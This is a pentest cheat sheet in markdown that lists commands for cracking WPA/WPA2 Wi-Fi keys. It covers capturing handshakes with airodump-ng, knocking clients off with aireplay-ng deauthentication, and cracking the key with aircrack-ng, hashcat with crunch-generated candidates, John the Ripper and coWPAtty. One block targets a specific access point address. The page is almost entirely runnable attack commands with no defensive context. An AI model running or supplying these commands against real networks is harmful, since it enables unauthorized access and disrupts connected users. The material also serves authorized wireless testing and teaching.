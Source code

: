 {% embed url="https://www.contextis.com/en/blog/attacking-and-defending-wpa-enterprise-networks" %}

{% embed url="https://resources.infosecinstitute.com/topic/attacking-wpa2-enterprise" %}

{% embed url="https://pentest.blog/attacking-wpa-enterprise-wireless-network" %}

### <mark style="color:orange;">Dictionary Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
aircrack-ng -w <WordlistFile> -b <BSSID> <Handshaked_PCAP>
```

### <mark style="color:orange;">crack with Hashcat</mark>

```
airmon-ng
airmon-ng start wlx000f00313c95
airodump-ng wlan1mon -c 11
airodump-ng wlan1mon -c 11 --bssid 48:EE:0C:8E:D0:5C -w /root/hp/
aireplay-ng -0 0 -a 48:EE:0C:8E:D0:5C  wlan1mon

# convert pcap to  hccapx
https://hashcat.net/cap2hccapx/

# if your ofline use this binary which can be installed with hashcat-utils:
 /usr/lib/hashcat-utils/cap2hccapx.bin
 
# or download the c code:
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c

apt install hashcat-utils
crunch 8 8 1234567890 | hashcat -m 2500  18081_1596091404.hccapx --status  -o cracked.txt
```

### <mark style="color:orange;">Crack with John The Ripper</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cd /pentest/passwords/john
john -wordlist=<Wordlist> --rules -stdout|aircrack-ng -0 -e <ESSID> -w - <PCAP_of_FileName>
```

### <mark style="color:orange;">Crack with coWPAtty</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <VictimMac> wlan0mon
cowpatty -r <FileName> -f <Wordlist> -2 -s <SSID>
genpmk -s <SSID> -f <Wordlist> -d <HashesFileName>
cowpatty -r <PCAP_of_FileName> -d <HashesFileName> -2 -s <SSID>
```
